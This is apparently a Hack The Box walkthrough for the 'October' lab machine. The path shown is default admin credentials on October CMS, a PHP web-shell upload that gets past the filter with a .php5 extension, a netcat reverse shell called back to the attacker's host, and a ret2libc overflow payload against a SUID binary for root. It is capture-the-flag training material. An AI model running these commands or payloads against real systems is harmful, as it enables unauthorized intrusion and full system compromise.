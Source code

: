 # [October](https://app.hackthebox.com/machines/october/)

```bash
nmap -p- --min-rate 10000  10.10.10.16 -Pn
```

![Alt text](img/image.png)

Now, we know that (22,80) ports are open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.16 -Pn
```

![Alt text](img/image-1.png)


Let's enumerate HTTP (port 80) of our target.

I see that it is '**October CMS**' application.

![Alt text](img/image-2.png)


After enumeration for October CMS that I find [that](https://octobercms.com/forum/post/how-do-i-access-the-backend) administration page of this CMS is located on '/**backend**' endpoint.

![Alt text](img/image-3.png)



Here, I tried default credentials 'admin:admin' that worked.

![Alt text](img/image-4.png)



Let's search publicly known exploit for **'October CMS'**.

I find [this](https://www.exploit-db.com/exploits/41936) which give me Remote Code Execution via File Upload bypass.

![Alt text](img/image-5.png)

Let's go to 'Media' tab, click 'Upload' button and your reverse shell php file via '.**php5**' extension.

![Alt text](img/image-6.png)

![Alt text](img/image-7.png)


After uploading, it's time to browse our webshell.

```bash
curl http://10.10.10.16/storage/app/media/dr4ks.php5?cmd={your_command}
```

![Alt text](img/image-8.png)


Let's add our reverse shell into command section.

```bash
curl http://10.10.10.16/storage/app/media/dr4ks.php5 --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1337 >/tmp/f"
```

![Alt text](img/image-9.png)

I got reverse shell from (port 1337)

![Alt text](img/image-10.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-11.png)

user.txt

![Alt text](img/image-12.png)



I write below payload to be root user.

```bash
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
```

root.txt

![Alt text](img/image-13.png)